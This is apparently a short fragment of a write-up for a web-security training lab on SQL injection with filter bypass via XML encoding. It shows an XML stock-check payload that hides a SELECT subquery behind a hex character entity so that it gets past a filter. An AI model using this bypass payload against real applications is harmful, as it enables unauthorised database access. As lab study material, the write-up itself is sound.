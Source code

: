 - https://portswigger.net/web-security/sql-injection/cheat-sheet



![img](images/SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding/1.png)

---------------------------------------------


The following payload allows to execute (SELECT 1), which returns the same as sending productId 1 and storeId 1:

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>
		(&#x53;ELECT 1)
	</productId>
	<storeId>
		(&#x53;ELECT 1)
	</storeId>
</stockCheck>
```





![img](images/SQL%20injection%20with%20filter%20bypass%20via%20XML%20encoding/2.png)